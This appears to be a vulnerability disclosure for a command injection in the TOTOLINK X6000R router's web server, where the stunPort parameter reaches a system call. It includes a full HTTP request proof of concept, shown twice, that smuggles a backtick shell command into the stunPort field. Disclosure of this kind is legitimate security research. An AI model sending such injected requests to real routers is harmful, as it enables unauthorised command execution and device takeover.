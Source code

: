 # Summary
There is a command execution vulnerability in TOTOLINK X6000R(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is parameter **`stunPort`** of `sub_4119A0` function in `/usr/sbin/shttpd` binary file.

**Notice**:
I checked **all the currently disclosed CVEs** and found that the affected parameters in the currently exposed sub_4119A0 are:
- [ ] interval
- [ ] pass
- [ ] enable
- [ ] url
- [ ] informEnable
- [ ] user
- [ ] stun_user
- [ ] request_user
- [ ] request_pass
- [ ] stun_enable
- [ ] stunServerAddr

However, parameters
- [ ] **port**
- [ ] **stunPort**
- [ ] **stunMaxAlive**
- [ ] **stunMinAlive**

are ignored.

# Details
Funtion `sub_4119A0` get `stunPort` from user's input and use `Uci_Set_Str`, which leads to command execution:
![image](https://github.com/user-attachments/assets/0d38a7ea-02f2-4bbe-9df6-77a2f0291dcb)

`Uci_Set_Str`:
![image](https://github.com/user-attachments/assets/fec24bc9-d13a-4c0f-bcd0-57a605e68383)

`CsteSystem`:
![image](https://github.com/user-attachments/assets/c55d454e-996d-451d-b21a-837127736d69)

The corresponding front-end web interface is here:
![image](https://github.com/user-attachments/assets/12ba6593-3d59-4390-ad1b-fbf1e3d9d2a6)

Use burpsuite to intercept the packet, and modify the value of `stunPort`:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 325
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"`ls > /web/poc_stunPort.txt`","stunMaxAlive":"","stunMinAlive":"","topicurl":"setTr069Cfg"}
```

![image](https://github.com/user-attachments/assets/2c48dc33-ced8-4b7d-a88d-df3c01e5c438)

![image](https://github.com/user-attachments/assets/20a7406d-397c-476a-8ef1-1f795c764090)


# PoC
Login first,
Use burpsuite to intercept the packet, and modify the value of `stunPort`:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 325
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"`ls > /web/poc_stunPort.txt`","stunMaxAlive":"","stunMinAlive":"","topicurl":"setTr069Cfg"}
```

![image](https://github.com/user-attachments/assets/2c48dc33-ced8-4b7d-a88d-df3c01e5c438)

![image](https://github.com/user-attachments/assets/20a7406d-397c-476a-8ef1-1f795c764090)
